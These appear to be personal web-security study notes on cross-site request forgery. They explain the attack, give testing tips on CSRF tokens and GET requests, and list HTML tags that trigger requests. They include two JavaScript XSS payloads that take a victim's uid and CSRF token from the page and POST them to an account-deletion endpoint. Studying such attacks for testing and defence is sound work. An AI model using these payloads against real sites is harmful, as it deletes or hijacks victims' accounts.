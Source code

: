 # CSRF

Exploits trust between browser and a vulnerable website.
Logged in sessions of banks etc. save cookies and when the user visits a malicious website and it has a hidden form submitting requests to the vulnerable website and the browser sends the cookies considering it's a regular request.

Generally, application frameworks like Ruby on Rails are increasingly protecting web
forms if the site is performing POST requests, however, this isn’t the case for GET
requests, so be sure to keep an eye out for any GET HTTP calls which change serverside
user data (like DELETE actions). Lastly, if you see a site is sending a CSRF token with
a POST request, try changing the CSRF token value or removing it entirely to ensure the
server is validating its existence.

Use a proxy and check all the
resources that are being called when you visit a target site or application. You
may find an information leak with sensitive data, such as a CSRF token.

## CSRF trigger tags

<img> the source value URL will be requested.
<iframe> also has the source just like the IMG tag. a hidden iframe will be ideal.
<script> src does the same.

Example -

XSS + CSRF
Scenario - We have reflected XSS on a page and we can edit HTML.
Now there is also a UID and CSRF token which we need to be able to carry out CSRF.

We first leverage XSS as
www.example.com/test?url=

`'
<script>
var uid = document.forms[0].elements[0].value; //Traversing HTML for values
var token = document.forms[0].elements[1].value;
var req = new XMLHttpRequest();
req.open("POST", "/webapp/csrf/xss/delete", true);
req.setRequestHeader("Content-type", "x-www-form-urlencoded");
req.send("uid="+uid+ "&csrf_token="+token);
</script>
'`
URL Encode this and we will be able to delete account when a logged in user clicks this link.

If we want to do anything after the change is done we can do the following -
`'
<script>

var uid = document.forms[0].elements[0].value; //Traversing HTML for values
var token = document.forms[0].elements[1].value;

var req = new XMLHttpRequest();
req.onreadystatechange = function(){
  if(req.readyState == 4 && req.status ==200)
{
    alert(req.responseText);
}
};
req.open("POST", "/webapp/csrf/xss/delete", true);
req.setRequestHeader("Content-type", "x-www-form-urlencoded");
req.send("uid="+uid+ "&csrf_token="+token);

</script>
'`
